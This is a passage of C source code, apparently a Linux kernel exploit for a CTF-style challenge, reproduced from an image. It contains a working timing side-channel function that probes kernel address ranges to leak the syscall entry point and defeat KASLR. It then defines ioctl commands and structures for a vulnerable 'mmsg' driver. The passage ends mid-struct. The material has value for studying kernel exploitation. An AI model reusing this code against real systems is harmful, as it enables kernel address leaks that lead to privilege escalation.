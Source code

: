 ```c
                 ".att_syntax;"
                 : "=r"(a), "=r"(b), "=r"(c), "=r"(d)
                 : "r"(addr)
                 : "rax", "rbx", "rcx", "rdx");
    a = (b << 32) | a;
    c = (d << 32) | c;
    return c - a;
}

#define STEP 0x100000ull
#define SCAN_START (KERNEL_LOWER_BOUND + entry_SYSCALL_64_offset)
#define SCAN_END (KERNEL_UPPER_BOUND + entry_SYSCALL_64_offset)

#define DUMMY_ITERATIONS 5
#define ITERATIONS 100
#define ARR_SIZE ((SCAN_END - SCAN_START) / STEP)

uint64_t leak_syscall_entry(void) {
    uint64_t data[ARR_SIZE] = {0};
    uint64_t min = ~0, addr = ~0;

    for (int i = 0; i < ITERATIONS + DUMMY_ITERATIONS; i++) {
        for (uint64_t idx = 0; idx < ARR_SIZE; idx++) {
            uint64_t test = SCAN_START + idx * STEP;
            syscall(104);
            uint64_t time = sidechannel(test);
            if (i >= DUMMY_ITERATIONS)
                data[idx] += time;
        }
    }

    for (int i = 0; i < ARR_SIZE; i++) {
        data[i] /= ITERATIONS;
        if (data[i] < min) {
            min = data[i];
            addr = SCAN_START + i * STEP;
        }
        // printf("%llx %ld\n", (SCAN_START + i * STEP), data[i]);
    }

    return addr;
}

#define MMSG_ALLOC 0x1111111
#define MMSG_COPY 0x2222222
#define MMSG_RECV 0x3333333
#define MMSG_UPDATE 0x4444444
#define MMSG_PUT_DESC 0x5555555
#define MMSG_GET_DESC 0x6666666

struct list_head {
        struct list_head *next;
        struct list_head *prev;
}; /* lisd_head */

struct mmsg_head {
        char description[16];
        struct list_head list;
};

struct mmsg {
        unsigned int token;
        int size;
```
